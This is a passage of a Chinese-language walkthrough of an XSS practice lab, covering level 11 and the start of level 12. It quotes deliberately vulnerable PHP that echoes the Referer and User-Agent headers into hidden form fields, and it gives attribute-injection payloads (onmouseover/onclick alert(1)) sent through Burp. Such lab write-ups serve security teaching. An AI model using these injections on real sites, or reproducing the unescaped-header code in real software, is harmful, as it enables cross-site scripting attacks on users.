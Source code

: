 > js onmouseover 事件会在鼠标指针移动到指定的对象上时发生

构成一个js的点击弹窗事件：
```js
<input name="t_sort" value=" " type="text" onclick = "alert(1)" type="hidden">
```

<br />

# level 11

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_REFERER'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ref"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```

多了一个 `str11=_SERVER['HTTP_REFERER'];` 考察的是http头部的xss注入.

burp抓包, 修改http头部Referer:
```
Referer: " onmouseover=alert(1) type="text"

Referer: " onclick="alert(1) type="text"
```

forward发包. 

<br />

# level 12

部分源码:
```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_USER_AGENT'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ua"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```
